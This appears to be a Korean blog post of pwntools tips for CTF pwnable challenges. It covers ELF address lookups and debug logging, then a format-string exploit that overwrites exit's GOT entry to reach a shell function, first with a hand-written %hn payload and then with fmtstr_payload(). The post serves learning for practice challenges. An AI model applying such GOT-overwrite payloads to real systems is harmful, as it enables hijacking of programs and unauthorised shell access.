 ```yaml
---
layout: post
title:  "Pwntools Usage"
date:   2020-10-01
categories: ["2020","tips","pwnable"]
update:   2020-10-01
comment: true
tags: [tips,pwnable]
---
```


## Pwntools Usage

❗ FSB 문제를 풀다가 새로 알게 된 pwntools의 기능이 있어 정리하고 이참에 pwntools 기능들 배우는 거 있을 때마다 여기에 업데이트 하려고 한다. 

---

### ELF

바이너리의 `got`, `bss` 등 여러 주소를 구할 때 `ELF()`를 쓰면 편하다.

```python
from pwn import *

e=ELF('binary') 
puts_got =e.got['puts'] # get puts got addr (same with plt)
bss_addr = e.bss() # get bss addr
func_addr = e.symbols['func'] # get custom func addr
```

 주로 위 3가지를 많이 쓴다. 주소들을 정수로 반환해줘서 바로 packing에 사용할 수 있다.

---

### DEBUG

pwntools에는 디버깅할 때 유용한 기능도 많이 제공한다.

``` python
from pwn import *

context.log_level="debug" # give useful info for debugging
log.info('some_string') # logging message (much better than print())
```

`context.log_level="debug"`는 python 파일을 실행하고 내가 `send`할 때나 `recv`할 때, 자세한 정보를 보여줘서 디버깅할 때 편하다.

`log.info()`는 그냥 `print()`로 확인하는 거보다 간지나는 로깅 메시지를 남길 수 있다.

가장 중요한 **gdb.attach() & raw_input()** :

> 🚀 참고
>
> [https://cosyp.tistory.com/229](https://cosyp.tistory.com/229)

내가 저 사람보다 자세히 쓸 자신이 없다 ! 😁

---

### FSB (Format String Bug) with Pwntools

```
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

`Partial RELRO`가 걸려있기 때문에 `got` 주소를 덮어야 겠다고 생각하고 코드를 보면, **FSB**가 발생해서 `got`를 덮을 수 있다. 쉘을 따주는 함수도 있었기 때문에 그 함수 주소로 main함수 마지막에 실행하는 `exit`함수의 `got`를 덮어 쉘을 따려고 했다. 

나는 평소에 **FSB**를 사용할 때 `%hn`으로 2바이트씩 안 덮고 한꺼번에 `%n`로 4바이트를 덮었다. 근데 이 문제에서는 그렇게 하니까 안 된다. 이유는 정확히는 모르겠지만 시간제한 때문인 거 같다.. 그래서 `%hn`으로 2바이트씩 덮어줬고 성공했다.

즉 페이로드가 다음과 같다:

```python
payload+=p32(exit_got+2)
payload+=p32(exit_got)
payload+="%2044c"
payload+="%1$hn"
payload+="%32261c"
payload+="%2$hn"
```

#### But

pwntools에는 이 페이로드를 알아서 짜주는 짱짱 기능이 있었다. 😂

``` python
# offset = 1, overwrite exit_got to get_shell
payload=fmtstr_payload(1,{exit_got:get_shell})
```

`fmtstr_payload()`라는 함수에 offset과 덮을 함수를 주면 알아서 페이로드를 짜준다.... 미쳐따 그냥

여기서 offset은 `ESP+0x4*(offset)`이라고 생각하면 된다. 즉 `%x`를 했을 때 첫번 째 `%x`에서 buf의 시작지점의 문자열이 출력되었기 때문에 offset이 1이다.

